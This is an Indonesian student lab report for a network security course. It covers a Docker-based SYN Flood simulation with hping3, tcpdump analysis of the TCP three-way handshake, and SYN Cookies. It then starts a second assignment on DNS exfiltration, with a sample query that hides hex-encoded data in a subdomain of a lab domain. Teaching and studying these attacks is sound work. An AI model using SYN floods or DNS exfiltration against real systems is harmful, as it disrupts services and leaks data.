Hasil tersebut menunjukkan bahwa pemeriksaan tidak menemukan koneksi dengan status `SYN_RECV` selama pengamatan serangan berlangsung.

## 4.5 Analisis Hasil SYN Flood

Apabila dibandingkan dengan kondisi sebelum serangan, jumlah koneksi `SYN_RECV` tetap menunjukkan nilai yang sama, yaitu 0.

Hal tersebut menunjukkan bahwa tidak terdapat peningkatan koneksi setengah terbuka yang terdeteksi melalui pemeriksaan `netstat` pada saat pengujian.

Salah satu mekanisme yang dapat memengaruhi hasil tersebut adalah SYN Cookies.

SYN Cookies merupakan mekanisme perlindungan TCP yang dirancang untuk membantu server menghadapi kondisi ketika antrean koneksi setengah terbuka mengalami tekanan.

Dalam mekanisme ini, server dapat menyimpan informasi yang diperlukan untuk validasi koneksi melalui nilai sequence number pada respons SYN-ACK, sehingga tidak harus langsung mengalokasikan entri koneksi pada backlog untuk setiap permintaan SYN.

Apabila client mengirimkan ACK yang valid, server dapat memverifikasi informasi tersebut dan melanjutkan pembentukan koneksi.

Namun, nilai `SYN_RECV` yang tetap 0 tidak dengan sendirinya membuktikan bahwa SYN Cookies aktif atau bahwa seluruh paket serangan berhasil ditangani oleh mekanisme tersebut.

Untuk memastikan status SYN Cookies, diperlukan pemeriksaan parameter kernel:

```bash
cat /proc/sys/net/ipv4/tcp_syncookies
```

Interpretasi nilai:

| Nilai | Keterangan |
|---|---|
| `0` | SYN Cookies dinonaktifkan |
| `1` | SYN Cookies aktif ketika kondisi SYN backlog mengalami overflow |
| `2` | SYN Cookies selalu digunakan |

Dengan demikian, hasil pengujian menunjukkan bahwa jumlah koneksi `SYN_RECV` yang teramati tetap 0, sedangkan status mekanisme SYN Cookies perlu dikonfirmasi melalui pemeriksaan parameter kernel secara langsung.

## 4.6 Dokumentasi Screenshot



**Gambar 3.** Proses menjalankan simulasi SYN Flood menggunakan hping3 pada service `attacker`. Paket TCP SYN dikirimkan menuju port 80 pada service `target` dengan batas waktu pengujian selama 15 detik.



**Gambar 4.** Pemeriksaan kembali jumlah koneksi TCP berstatus `SYN_RECV` pada service `target` selama simulasi SYN Flood berlangsung. Hasil pengamatan menunjukkan jumlah koneksi tetap 0.

---

# 5. ANALISIS TCP THREE-WAY HANDSHAKE MENGGUNAKAN TCPDUMP

## 5.1 Tujuan

Setelah melakukan simulasi SYN Flood, tahap berikutnya adalah mengamati proses pembentukan koneksi TCP secara normal menggunakan tcpdump.

tcpdump merupakan tools yang digunakan untuk menangkap dan menganalisis paket jaringan yang melewati interface tertentu.

Pada praktikum ini, tcpdump dijalankan pada service `attacker` untuk mengamati lalu lintas TCP yang menggunakan port 80.

Selama proses penangkapan paket berlangsung, dilakukan satu permintaan HTTP normal menggunakan `curl` menuju server target.

Pengujian ini bertujuan untuk mengamati secara langsung tiga tahapan pembentukan koneksi TCP, yaitu:

1. SYN.
2. SYN-ACK.
3. ACK.

Selain itu, pengujian juga memperlihatkan pertukaran data HTTP setelah koneksi berhasil dibentuk.

## 5.2 Perintah yang Digunakan

Perintah yang dijalankan:

```powershell
docker compose -p k2 -f b/b3-syn-flood/docker-compose.yml exec attacker sh -c 'timeout 10 tcpdump -i eth0 -nn tcp port 80 & sleep 1; curl -s http://target > /dev/null; sleep 10'
```

Penjelasan parameter:

| Parameter | Fungsi |
|---|---|
| `exec attacker` | Menjalankan perintah pada service attacker |
| `sh -c` | Menjalankan rangkaian perintah shell |
| `timeout 10` | Membatasi proses tcpdump selama 10 detik |
| `tcpdump` | Menangkap dan menampilkan paket jaringan |
| `-i eth0` | Menentukan interface jaringan yang digunakan |
| `-nn` | Menampilkan alamat IP dan nomor port tanpa resolusi nama |
| `tcp port 80` | Menyaring paket TCP yang menggunakan port 80 |
| `&` | Menjalankan tcpdump di latar belakang |
| `sleep 1` | Memberikan jeda sebelum melakukan permintaan HTTP |
| `curl -s http://target` | Mengirim permintaan HTTP ke server target |
| `> /dev/null` | Mengabaikan output isi halaman HTTP |
| `sleep 10` | Memberikan waktu agar proses penangkapan paket selesai |

Melalui perintah tersebut, tcpdump dijalankan terlebih dahulu untuk menangkap paket TCP.

Setelah jeda satu detik, perintah curl mengirimkan permintaan HTTP menuju server Nginx pada service `target`.

Seluruh proses dilakukan untuk memperoleh bukti pertukaran paket TCP selama pembentukan koneksi dan komunikasi HTTP.

## 5.3 Hasil Penangkapan Paket

Berdasarkan dokumentasi hasil pengujian, diperoleh potongan output tcpdump sebagai berikut:

```text
13:41:22.065843 IP 172.19.0.2.43562 > 172.19.0.3.80: Flags [S], seq 2149254747, ...          ← SYN

13:41:22.065911 IP 172.19.0.3.80 > 172.19.0.2.43562: Flags [S.], seq 2110817011, ack 2149254748, ... ← SYN-ACK

13:41:22.065949 IP 172.19.0.2.43562 > 172.19.0.3.80: Flags [.], ack 1, ...                    ← ACK

13:41:22.066074 IP 172.19.0.2.43562 > 172.19.0.3.80: ... HTTP: GET / HTTP/1.1

13:41:22.066090 IP 172.19.0.3.80 > 172.19.0.2.43562: Flags [.], ack 71, ...

13:41:22.067392 IP 172.19.0.3.80 > 172.19.0.2.43562: ... HTTP: HTTP/1.1 200 OK

...

13:41:22.067674 IP 172.19.0.2.43562 > 172.19.0.3.80: Flags [F.], ...                          ← FIN

13:41:22.067722 IP 172.19.0.3.80 > 172.19.0.2.43562: Flags [F.], ...                          ← FIN

13:41:22.067727 IP 172.19.0.2.43562 > 172.19.0.3.80: Flags [.], ack 1136, ...                 ← ACK

12 packets captured, 0 packets dropped by kernel
```

Berdasarkan output tersebut, terdapat dua alamat IP utama yang terlibat dalam komunikasi:

| Perangkat | IP Address | Port |
|---|---|---|
| Attacker / Client | `172.19.0.2` | `43562` |
| Target / Server | `172.19.0.3` | `80` |

Port `43562` merupakan port sumber sementara (*ephemeral port*) yang digunakan client, sedangkan port 80 merupakan port layanan HTTP pada server target.

## 5.4 Analisis Paket SYN

Paket pertama yang terlihat pada hasil tcpdump adalah:

```text
172.19.0.2.43562 > 172.19.0.3.80: Flags [S]
```

Flag `[S]` menunjukkan bahwa paket tersebut memiliki flag TCP SYN.

Paket dikirimkan dari client `172.19.0.2` menuju server `172.19.0.3` pada port 80.

SYN digunakan untuk memulai proses pembentukan koneksi TCP.

Pada tahap ini, client mengirimkan nomor urut awal (*initial sequence number*) yang digunakan untuk sinkronisasi komunikasi antara kedua perangkat.

Dengan demikian, paket pertama menunjukkan bahwa client mulai meminta koneksi TCP kepada server.

## 5.5 Analisis Paket SYN-ACK

Paket kedua yang diterima adalah:

```text
172.19.0.3.80 > 172.19.0.2.43562: Flags [S.]
```

Flag `[S.]` menunjukkan kombinasi SYN dan ACK.

Paket ini dikirimkan oleh server sebagai respons terhadap permintaan koneksi dari client.

SYN berfungsi untuk mengirimkan nomor urut awal dari server, sedangkan ACK digunakan untuk mengonfirmasi nomor urut yang diterima dari client.

Pada tahap ini, server menunjukkan bahwa permintaan koneksi telah diterima dan server siap melanjutkan proses pembentukan koneksi.

## 5.6 Analisis Paket ACK

Paket ketiga yang terlihat adalah:

```text
172.19.0.2.43562 > 172.19.0.3.80: Flags [.]
```

Flag `[.]` menunjukkan paket TCP ACK.

Paket ini dikirimkan oleh client sebagai konfirmasi terhadap SYN-ACK yang diterima dari server.

Setelah paket ACK diterima dan diproses oleh server, proses TCP Three-Way Handshake dinyatakan selesai.

Koneksi kemudian berada dalam status `ESTABLISHED` dan dapat digunakan untuk melakukan pertukaran data.

## 5.7 Analisis Pertukaran Data HTTP

Setelah proses Three-Way Handshake selesai, client mengirimkan permintaan HTTP kepada server.

Berdasarkan hasil tcpdump, ditemukan paket:

```text
HTTP: GET / HTTP/1.1
```

Permintaan tersebut merupakan HTTP GET yang digunakan untuk meminta halaman utama dari server.

Selanjutnya, server memberikan respons:

```text
HTTP/1.1 200 OK
```

Kode status HTTP 200 OK menunjukkan bahwa permintaan berhasil diproses oleh server.

Hal tersebut memperlihatkan bahwa koneksi TCP tidak hanya berhasil dibentuk, tetapi juga dapat digunakan untuk melakukan pertukaran data HTTP secara normal.

## 5.8 Analisis Penutupan Koneksi

Setelah pertukaran data selesai, koneksi TCP ditutup menggunakan mekanisme FIN dan ACK.

Berdasarkan hasil pengamatan, terdapat paket:

```text
172.19.0.2.43562 > 172.19.0.3.80: Flags [F.]
```

Kemudian server memberikan respons:

```text
172.19.0.3.80 > 172.19.0.2.43562: Flags [F.]
```

Terakhir, client memberikan konfirmasi:

```text
172.19.0.2.43562 > 172.19.0.3.80: Flags [.]
```

Flag `[F.]` menunjukkan kombinasi FIN dan ACK, sedangkan `[.]` menunjukkan ACK.

Pertukaran tersebut merupakan bagian dari proses penutupan koneksi TCP setelah komunikasi HTTP selesai dilakukan.

## 5.9 Dokumentasi Screenshot



**Gambar 5.** Proses penangkapan paket TCP menggunakan tcpdump pada service `attacker` sambil melakukan permintaan HTTP normal menggunakan curl. Hasil pengamatan memperlihatkan paket SYN, SYN-ACK, ACK, pertukaran HTTP GET dan HTTP 200 OK, serta paket penutupan koneksi FIN/ACK.

---

# 6. PENJELASAN TCP THREE-WAY HANDSHAKE DAN SYN FLOOD

## 6.1 Mekanisme TCP Three-Way Handshake

TCP Three-Way Handshake merupakan proses pembentukan koneksi yang melibatkan tiga tahapan pertukaran paket antara client dan server.

Proses ini diperlukan untuk memastikan kedua perangkat siap melakukan komunikasi serta menyinkronkan nomor urut paket yang akan digunakan.

### 1. SYN (Synchronize)

Tahap pertama dimulai ketika client mengirimkan paket TCP dengan flag SYN kepada server.

Tujuannya adalah meminta pembentukan koneksi dan mengirimkan nomor urut awal milik client.

Dalam hasil pengujian, tahap ini ditunjukkan oleh:

```text
172.19.0.2.43562 > 172.19.0.3.80: Flags [S]
```

Artinya, client `172.19.0.2` mengirimkan permintaan koneksi menuju server `172.19.0.3` pada port 80.

### 2. SYN-ACK (Synchronize-Acknowledgment)

Setelah menerima paket SYN, server mengirimkan paket balasan yang memiliki flag SYN dan ACK.

Paket ini berfungsi untuk mengonfirmasi permintaan client sekaligus memberikan nomor urut awal dari sisi server.

Dalam hasil pengujian, tahap ini ditunjukkan oleh:

```text
172.19.0.3.80 > 172.19.0.2.43562: Flags [S.]
```

Artinya, server telah menerima permintaan koneksi dan memberikan respons kepada client.

### 3. ACK (Acknowledgment)

Tahap terakhir dilakukan ketika client mengirimkan paket ACK kepada server.

Paket ini berfungsi untuk mengonfirmasi bahwa respons SYN-ACK telah diterima.

Dalam hasil pengujian, tahap ini ditunjukkan oleh:

```text
172.19.0.2.43562 > 172.19.0.3.80: Flags [.]
```

Setelah ketiga tahapan tersebut selesai, koneksi TCP berada dalam kondisi `ESTABLISHED` dan dapat digunakan untuk melakukan pertukaran data.

## 6.2 Ringkasan Three-Way Handshake

| Tahap | Pengirim | Penerima | Flag TCP | Fungsi |
|---|---|---|---|---|
| Pertama | Client | Server | SYN `[S]` | Meminta pembentukan koneksi |
| Kedua | Server | Client | SYN-ACK `[S.]` | Memberikan respons dan konfirmasi |
| Ketiga | Client | Server | ACK `[.]` | Menyelesaikan pembentukan koneksi |

## 6.3 Pengertian SYN Flood Attack

SYN Flood merupakan serangan DoS yang memanfaatkan proses awal pembentukan koneksi TCP.

Pada komunikasi normal, setiap permintaan SYN yang diterima server akan direspons dengan SYN-ACK. Server kemudian menunggu ACK terakhir dari client.

Pada serangan SYN Flood, penyerang mengirimkan banyak paket SYN tanpa menyelesaikan proses handshake secara lengkap.

Akibatnya, server dapat menyimpan banyak informasi koneksi yang masih menunggu konfirmasi terakhir.

Koneksi yang belum menyelesaikan proses handshake tersebut disebut *half-open connection*.

Apabila jumlahnya terlalu besar dan melebihi kapasitas antrean koneksi, server dapat mengalami kesulitan dalam menerima permintaan koneksi baru.

## 6.4 Perbedaan Three-Way Handshake Normal dan SYN Flood

| Aspek | Three-Way Handshake Normal | SYN Flood |
|---|---|---|
| Paket SYN | Dikirimkan oleh client | Dikirimkan dalam jumlah besar |
| Paket SYN-ACK | Diterima sebagai respons server | Dapat dikirimkan oleh server sebagai respons terhadap SYN |
| Paket ACK | Dikirimkan untuk menyelesaikan koneksi | Tidak dikirimkan untuk menyelesaikan banyak permintaan SYN |
| Status Koneksi | `ESTABLISHED` setelah handshake selesai | Dapat menghasilkan banyak koneksi `SYN_RECV` |
| Tujuan | Membentuk komunikasi normal | Mengganggu ketersediaan layanan |
| Dampak | Komunikasi berjalan normal | Dapat membebani resource server |

## 6.5 Hubungan SYN Flood dengan Status SYN_RECV

Status `SYN_RECV` merupakan salah satu indikator yang dapat digunakan untuk mengamati koneksi TCP yang masih berada dalam tahap menunggu penyelesaian handshake.

Ketika server menerima SYN, server akan mengirimkan SYN-ACK dan menunggu ACK dari client.

Selama proses tersebut belum selesai, koneksi dapat berada dalam status `SYN_RECV`.

Pada serangan SYN Flood, jumlah koneksi setengah terbuka berpotensi meningkat karena penyerang tidak menyelesaikan proses handshake.

Oleh karena itu, pemeriksaan jumlah `SYN_RECV` dapat digunakan sebagai salah satu cara untuk mengamati kondisi koneksi TCP selama simulasi.

Namun, jumlah `SYN_RECV` tidak selalu menggambarkan seluruh paket SYN yang diterima server. Paket yang ditolak, diproses melalui mekanisme mitigasi, atau tidak berhasil masuk ke antrean koneksi tidak harus muncul sebagai entri `SYN_RECV`.

---

# 7. ANALISIS MEKANISME MITIGASI SYN COOKIES

## 7.1 Pengertian SYN Cookies

SYN Cookies merupakan mekanisme perlindungan pada TCP yang dirancang untuk membantu server menghadapi serangan SYN Flood.

Mekanisme ini memungkinkan server mengurangi kebutuhan penyimpanan informasi koneksi setengah terbuka ketika antrean SYN mengalami tekanan.

Pada mekanisme normal, server dapat menyimpan informasi koneksi sementara setelah menerima SYN dan mengirimkan SYN-ACK.

Sementara itu, dengan SYN Cookies, server dapat mengenkode informasi yang diperlukan untuk validasi koneksi ke dalam nomor urut (*sequence number*) pada paket SYN-ACK.

Ketika client mengirimkan ACK yang valid, server dapat memverifikasi informasi tersebut dan melanjutkan pembentukan koneksi tanpa harus mempertahankan seluruh state koneksi sejak awal.

## 7.2 Cara Kerja SYN Cookies

Secara umum, mekanisme SYN Cookies bekerja melalui tahapan berikut:

1. Server menerima paket SYN dari client.
2. Server membentuk SYN-ACK dengan sequence number khusus yang berisi informasi validasi.
3. Server tidak perlu langsung menyimpan seluruh informasi koneksi setengah terbuka seperti pada mekanisme normal.
4. Apabila client mengirimkan ACK yang valid, server memverifikasi nilai tersebut.
5. Setelah validasi berhasil, server melanjutkan pembentukan koneksi TCP.

Mekanisme ini membantu mengurangi penggunaan resource server akibat permintaan SYN yang tidak diselesaikan.

## 7.3 Pemeriksaan Status SYN Cookies

Untuk mengetahui apakah SYN Cookies aktif pada kernel Linux, dapat digunakan perintah berikut:

```bash
cat /proc/sys/net/ipv4/tcp_syncookies
```

Interpretasi hasil:

| Nilai | Keterangan |
|---|---|
| `0` | SYN Cookies dinonaktifkan |
| `1` | SYN Cookies digunakan ketika antrean SYN mengalami overflow |
| `2` | SYN Cookies selalu digunakan |

Pada konfigurasi Linux, nilai `1` umumnya menunjukkan bahwa mekanisme SYN Cookies diaktifkan ketika terjadi kondisi antrean SYN yang mengalami overflow.

## 7.4 Analisis Hasil Pengujian

Berdasarkan dokumentasi pengujian, jumlah koneksi `SYN_RECV` menunjukkan angka 0 baik sebelum maupun saat serangan berlangsung.

Hasil tersebut memperlihatkan bahwa tidak terdapat peningkatan koneksi setengah terbuka yang terdeteksi melalui pemeriksaan `netstat`.

Salah satu kemungkinan yang perlu diperhatikan adalah adanya mekanisme perlindungan TCP seperti SYN Cookies.

Namun, hasil `SYN_RECV` yang tetap 0 tidak dapat digunakan sebagai satu-satunya bukti bahwa SYN Cookies aktif.

Untuk memastikan hal tersebut, diperlukan pemeriksaan parameter kernel secara langsung.

Dengan demikian, hasil praktikum menunjukkan kondisi koneksi yang teramati, sedangkan efektivitas SYN Cookies perlu dikonfirmasi menggunakan informasi konfigurasi kernel dan pengamatan paket tambahan.

---

# 8. REKAPITULASI DAN ANALISIS HASIL PRAKTIKUM

## 8.1 Rekapitulasi Jumlah SYN_RECV

Berdasarkan hasil pengujian yang telah dilakukan, diperoleh perbandingan jumlah koneksi `SYN_RECV` sebagai berikut:

| Kondisi Pengujian | Jumlah SYN_RECV |
|---|---:|
| Sebelum serangan | **0** |
| Saat serangan berlangsung | **0** |

Berdasarkan tabel tersebut, jumlah koneksi dengan status `SYN_RECV` tidak mengalami perubahan selama pengamatan.

Pada kondisi awal tidak ditemukan koneksi setengah terbuka.

Setelah simulasi SYN Flood dijalankan, pemeriksaan kembali juga tidak menunjukkan adanya koneksi dengan status `SYN_RECV`.

Hasil ini merupakan temuan utama dari pengujian SYN Flood pada lingkungan Docker yang digunakan.

## 8.2 Rekapitulasi Paket Three-Way Handshake

Berdasarkan hasil penangkapan paket menggunakan tcpdump, diperoleh informasi sebagai berikut:

| No. | Jenis Paket | Flag TCP | Arah Komunikasi | Keterangan |
|---|---|---|---|---|
| 1 | SYN | `[S]` | Client → Server | Permintaan koneksi |
| 2 | SYN-ACK | `[S.]` | Server → Client | Respons server |
| 3 | ACK | `[.]` | Client → Server | Konfirmasi client |
| 4 | HTTP GET | - | Client → Server | Permintaan halaman web |
| 5 | HTTP 200 OK | - | Server → Client | Respons berhasil |
| 6 | FIN/ACK | `[F.]` | Client dan Server | Proses penutupan koneksi |

Pada hasil pengujian, terlihat bahwa ketiga paket pertama membentuk proses TCP Three-Way Handshake secara normal.

Setelah itu, komunikasi dilanjutkan dengan permintaan HTTP GET dan respons HTTP 200 OK.

Proses komunikasi kemudian diakhiri dengan pertukaran FIN dan ACK.

## 8.3 Analisis Keseluruhan

Berdasarkan seluruh tahapan praktikum, dapat diketahui bahwa simulasi SYN Flood dan analisis TCP Three-Way Handshake berhasil dijalankan dalam lingkungan Docker Compose.

Pengujian SYN Flood dilakukan menggunakan hping3 dengan mengirimkan paket TCP SYN menuju port 80 pada server target.

Pemeriksaan terhadap status koneksi TCP menunjukkan bahwa jumlah `SYN_RECV` tetap 0 sebelum maupun selama serangan berlangsung.

Hasil tersebut menunjukkan bahwa tidak ditemukan koneksi setengah terbuka melalui pemeriksaan yang dilakukan.

Selanjutnya, proses penangkapan paket menggunakan tcpdump berhasil memperlihatkan pertukaran paket SYN, SYN-ACK, dan ACK.

Ketiga paket tersebut membuktikan bahwa koneksi TCP normal dapat dibentuk antara client dan server.

Setelah koneksi terbentuk, permintaan HTTP berhasil diproses dan server memberikan respons `200 OK`.

Dengan demikian, pengujian ini memperlihatkan perbedaan antara proses pembentukan koneksi TCP secara normal dan konsep serangan SYN Flood yang berusaha mengganggu proses tersebut.

---

# 9. PEMBERSIHAN LINGKUNGAN PRAKTIKUM

## 9.1 Tujuan

Setelah seluruh tahapan pengujian selesai dilakukan, lingkungan Docker Compose dibersihkan agar container, jaringan, dan volume yang dibuat khusus untuk praktikum tidak terus berjalan atau menggunakan resource sistem.

Pembersihan dilakukan menggunakan perintah Docker Compose `down -v`.

## 9.2 Perintah Pembersihan

Perintah yang digunakan:

```powershell
docker compose -p k2 -f b/b3-syn-flood/docker-compose.yml down -v
```

Penjelasan parameter:

- `docker compose`: menjalankan perintah Docker Compose.
- `-p k2`: menentukan project yang akan dihentikan.
- `-f`: menentukan file konfigurasi Docker Compose.
- `down`: menghentikan dan menghapus container serta jaringan yang dibuat oleh project tersebut.
- `-v`: menghapus volume yang terkait dengan project.

Perintah tersebut digunakan untuk membersihkan lingkungan praktikum setelah seluruh pengujian selesai dilakukan.

## 9.3 Hasil Pembersihan

Setelah perintah dijalankan, service yang digunakan dalam simulasi dihentikan dan resource Docker Compose yang terkait dengan project `k2` dibersihkan sesuai konfigurasi.

Dengan demikian, lingkungan pengujian SYN Flood telah selesai digunakan.

## 9.4 Dokumentasi Screenshot



**Gambar 6.** Proses pembersihan lingkungan praktikum menggunakan perintah Docker Compose `down -v` setelah seluruh pengujian SYN Flood dan Three-Way Handshake selesai dilakukan.

---

# 10. KESIMPULAN

Berdasarkan pelaksanaan Tugas 6 (Pertemuan 6) mengenai SYN Flood dan TCP Three-Way Handshake pada Kasus 2 (`k2`), dapat disimpulkan bahwa praktikum berhasil memberikan pemahaman mengenai proses pembentukan koneksi TCP serta karakteristik serangan SYN Flood.

Pada tahap awal, lingkungan pengujian berhasil dijalankan menggunakan Docker Compose dengan dua service utama, yaitu `target` sebagai server Nginx dan `attacker` sebagai perangkat pengujian.

Simulasi SYN Flood dilakukan menggunakan hping3 dengan mengirimkan paket TCP SYN menuju port 80 pada server target.

Berdasarkan hasil pemeriksaan, jumlah koneksi dengan status `SYN_RECV` sebelum serangan adalah 0. Ketika serangan berlangsung, jumlah yang teramati juga tetap 0.

Hasil tersebut menunjukkan bahwa tidak ditemukan koneksi setengah terbuka melalui pemeriksaan netstat yang dilakukan. Namun, hasil ini belum cukup untuk memastikan bahwa SYN Cookies aktif tanpa pemeriksaan parameter kernel secara langsung.

Selanjutnya, analisis paket menggunakan tcpdump berhasil memperlihatkan proses TCP Three-Way Handshake yang terdiri dari tiga tahapan, yaitu SYN, SYN-ACK, dan ACK.

Setelah ketiga tahapan tersebut selesai, koneksi TCP berhasil dibentuk dan digunakan untuk melakukan komunikasi HTTP.

Hal ini dibuktikan melalui adanya permintaan `GET / HTTP/1.1` dan respons server `HTTP/1.1 200 OK`.

Selain itu, praktikum ini memberikan pemahaman mengenai SYN Flood sebagai serangan yang memanfaatkan permintaan koneksi TCP dalam jumlah besar tanpa menyelesaikan proses handshake.

Salah satu mekanisme mitigasi yang dapat digunakan untuk mengurangi dampak serangan tersebut adalah SYN Cookies, yang membantu server mengurangi kebutuhan penyimpanan informasi koneksi setengah terbuka ketika antrean SYN mengalami tekanan.

Secara keseluruhan, praktikum ini memberikan pemahaman mengenai mekanisme TCP Three-Way Handshake, karakteristik serangan SYN Flood, analisis paket menggunakan tcpdump, serta pentingnya mekanisme perlindungan untuk menjaga ketersediaan layanan jaringan.

---

# 11. LAMPIRAN DAN DOKUMENTASI

## 11.1 Daftar Screenshot

Berikut merupakan daftar dokumentasi visual yang digunakan sebagai bukti pelaksanaan praktikum:

| No. | Nama Screenshot | Keterangan |
|---|---|---|
| 1 | `01.png` | Menjalankan lingkungan Docker Compose |
| 2 | `02.png` | Pemeriksaan SYN_RECV sebelum serangan |
| 3 | `03.png` | Menjalankan simulasi SYN Flood menggunakan hping3 |
| 4 | `04.png` | Pemeriksaan SYN_RECV selama serangan |
| 5 | `05.png` | Penangkapan paket Three-Way Handshake menggunakan tcpdump |
| 6 | `06.png` | Pembersihan lingkungan Docker Compose |

## 11.2 Dokumentasi Keseluruhan

### A. Menjalankan Lingkungan Pengujian


**Gambar 1.** Inisialisasi service target dan attacker menggunakan Docker Compose.

### B. Pemeriksaan Sebelum Serangan


**Gambar 2.** Pemeriksaan kondisi awal koneksi TCP pada server target.

### C. Eksekusi SYN Flood


**Gambar 3.** Proses pengiriman paket TCP SYN menggunakan hping3 menuju port 80 pada server target.

### D. Pemeriksaan Selama Serangan


**Gambar 4.** Pemeriksaan jumlah koneksi setengah terbuka ketika simulasi SYN Flood berlangsung.

### E. Analisis Three-Way Handshake


**Gambar 5.** Hasil penangkapan paket TCP yang memperlihatkan pertukaran SYN, SYN-ACK, ACK, HTTP GET, HTTP 200 OK, dan proses penutupan koneksi.

### F. Pembersihan Lingkungan Pengujian


**Gambar 6.** Penghapusan lingkungan praktikum menggunakan perintah Docker Compose `down -v`.

---

<!-- Dokumentasi lengkap Tugas 7; sumber: tugas7/hasil.md -->

# TUGAS 7 (PERTEMUAN 7)
# DNS EXFILTRATION — KASUS 2 (K2)

## IDENTITAS DAN PARAMETER LAB

| Keterangan | Informasi |
|---|---|
| Nama | Insanul Firas |
| NIM | 24552011147 |
| Mata Kuliah | Keamanan Jaringan (Security Network) |
| Pertemuan | Pertemuan 7 |
| Tugas | DNS Exfiltration |
| Kasus | Kasus 2 (`k2`) |
| Sistem Operasi Host | Windows |
| Terminal | Windows PowerShell |
| Lingkungan Pengujian | Docker Desktop |
| Docker Compose Project | `k2` |
| Docker Image | `uts-kali-tools` |
| DNS Service | `dns` |
| Attacker Service | `attacker` |
| Domain Pengujian | `k2.exfil.lab` |
| Tools | Docker Compose, dig, xxd, Python |
| Script Analisis | `analisis_dns.py` |

---

# 1. PENDAHULUAN

## 1.1 Tujuan Praktikum

Praktikum ini bertujuan untuk memahami mekanisme DNS Exfiltration, yaitu salah satu teknik penyalahgunaan protokol Domain Name System (DNS) untuk mengirimkan atau menyelundupkan informasi melalui permintaan DNS.

Dalam komunikasi jaringan normal, DNS digunakan untuk menerjemahkan nama domain menjadi alamat IP agar perangkat dapat menemukan server tujuan.

Namun, protokol DNS juga dapat disalahgunakan untuk membawa informasi tertentu di dalam bagian nama domain atau DNS query.

Pada praktikum ini, dilakukan simulasi pengiriman informasi berupa Nomor Induk Mahasiswa (NIM) melalui DNS query dengan cara mengubah data asli menjadi format hexadecimal terlebih dahulu.

Data hexadecimal tersebut kemudian ditempatkan sebagai label subdomain pada domain pengujian `k2.exfil.lab`.

Selanjutnya, DNS server menerima permintaan tersebut dan mencatat query yang masuk ke dalam log. Log tersebut kemudian dianalisis menggunakan script Python untuk mengidentifikasi pola permintaan DNS yang mencurigakan.

Tahap terakhir dilakukan dengan mengembalikan data hexadecimal menjadi teks asli menggunakan perintah `xxd`.

Adapun tujuan khusus praktikum ini adalah:

1. Memahami fungsi DNS dalam komunikasi jaringan.
2. Memahami konsep DNS Exfiltration.
3. Mengubah informasi teks menjadi format hexadecimal menggunakan `xxd`.
4. Mengirimkan informasi melalui DNS query menggunakan `dig`.
5. Memahami bagaimana DNS server menerima dan mencatat permintaan DNS.
6. Melakukan analisis log DNS menggunakan script Python.
7. Mengidentifikasi pola DNS query yang mencurigakan berdasarkan karakteristik label domain.
8. Mengembalikan data hexadecimal menjadi teks asli.
9. Memahami potensi penyalahgunaan DNS dan mekanisme mitigasinya.

## 1.2 Konsep Dasar DNS

Domain Name System (DNS) merupakan sistem yang digunakan untuk menerjemahkan nama domain menjadi alamat IP.

Sebagai contoh, ketika pengguna mengakses suatu website menggunakan nama domain, perangkat akan melakukan permintaan DNS untuk mendapatkan alamat IP yang sesuai.

Proses tersebut memungkinkan pengguna mengakses layanan jaringan tanpa harus menghafalkan alamat IP setiap server.

Dalam komunikasi DNS, terdapat beberapa komponen penting:

- **DNS Client:** perangkat yang mengirimkan permintaan DNS.
- **DNS Server:** perangkat yang menerima dan memproses permintaan DNS.
- **DNS Query:** permintaan informasi yang dikirimkan oleh client kepada DNS server.
- **DNS Response:** jawaban yang diberikan oleh DNS server terhadap permintaan yang diterima.
- **Domain Name:** nama domain yang digunakan dalam proses pencarian informasi DNS.

DNS umumnya menggunakan port 53, baik melalui UDP maupun TCP.

Pada praktikum ini, DNS digunakan sebagai media pengiriman informasi melalui label subdomain yang telah dikonversi menjadi hexadecimal.

## 1.3 Pengertian DNS Exfiltration

DNS Exfiltration merupakan teknik pengiriman informasi keluar dari suatu sistem atau jaringan dengan memanfaatkan protokol DNS sebagai media komunikasi.

Dalam kondisi normal, DNS digunakan untuk melakukan pencarian alamat IP berdasarkan nama domain.

Namun, dalam teknik DNS Exfiltration, informasi tertentu dapat disisipkan ke dalam bagian nama domain yang dikirimkan melalui DNS query.

Sebagai contoh, suatu informasi teks dapat diubah menjadi hexadecimal, kemudian dimasukkan ke dalam label subdomain.

Bentuk query yang digunakan dalam praktikum ini adalah:

```text
3234353532303131313437.k2.exfil.lab
```

Bagian `3234353532303131313437` merupakan data hexadecimal yang mewakili informasi NIM.

Sementara itu, `k2.exfil.lab` merupakan domain pengujian yang digunakan sebagai tujuan query DNS.

Dengan cara tersebut, informasi dapat dikirimkan melalui permintaan DNS dan selanjutnya diamati melalui log DNS server.

---

# 2. PERSIAPAN LINGKUNGAN PENGUJIAN

## 2.1 Topologi Pengujian

Praktikum dilakukan menggunakan Docker Compose yang menyediakan dua service utama, yaitu DNS server dan attacker.

Kedua service tersebut digunakan untuk melakukan simulasi komunikasi DNS dalam lingkungan jaringan virtual Docker.

| Service | Peran | Fungsi |
|---|---|---|
| `dns` | DNS Server | Menerima dan mencatat permintaan DNS |
| `attacker` | Client / Pengirim | Mengirimkan DNS query menggunakan tools dig |

DNS server digunakan sebagai tujuan permintaan DNS, sedangkan attacker bertugas membentuk dan mengirimkan query yang berisi informasi hexadecimal.

Lingkungan tersebut menggunakan jaringan Docker yang dibuat secara otomatis oleh Docker Compose.

## 2.2 Struktur File Praktikum

